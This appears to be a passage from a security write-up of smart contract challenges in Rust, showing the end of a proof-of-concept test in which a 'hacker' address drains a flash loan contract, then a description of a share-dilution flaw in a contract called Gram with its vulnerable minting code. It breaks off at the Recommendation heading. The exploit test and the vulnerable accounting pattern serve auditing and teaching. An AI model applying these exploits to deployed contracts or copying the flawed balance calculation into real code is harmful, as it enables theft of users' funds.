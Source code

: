 ```rust
            .query_balance("hacker".to_string(), DENOM)
            .unwrap();
        assert_eq!(balance.amount, Uint128::new(0));

        // "hacker" takes all funds from flash loan contract
        app.execute_contract(
            Addr::unchecked("hacker"),
            flash_loan_contract.clone(),
            &FlashLoanExecuteMsg::WithdrawFunds { 
                recipient: Addr::unchecked("hacker")
            },
            &[],
        )
        .unwrap();

        // "hacker" has successfully drained the flash loan contract
        let balance = app
            .wrap()
            .query_balance("hacker".to_string(), DENOM)
            .unwrap();
        assert_eq!(balance.amount, Uint128::new(10_000));
    }

```

---

## Challenge 04: *Gram*

### Description

#### Severity: $\textcolor{red}{\textsf{Critical}}$

There is a vulnerability in this contract in that a malicious user can send tokens directly to the contract (without calling `Mint`) before any shares are minted. Then, when they do mint shares, they have essentially "pre-diluted" other holders. By doing this, the exploiter can wait until other users have called the `Mint` function, and then burn their own shares to effectively steal the other users funds.

This bug exists because of how the `total_assets` for the contract is calculated. It currently queries itself to determine what it's balance is, allowing the malicious user to exploit the scenario described above. That piece of code can be seen here inside the `mint` function:
```rust
    let contract_balance = deps
        .querier
        .query_balance(env.contract.address.to_string(), DENOM)
        .unwrap();

    let total_assets = contract_balance.amount - amount;
```

### Recommendation
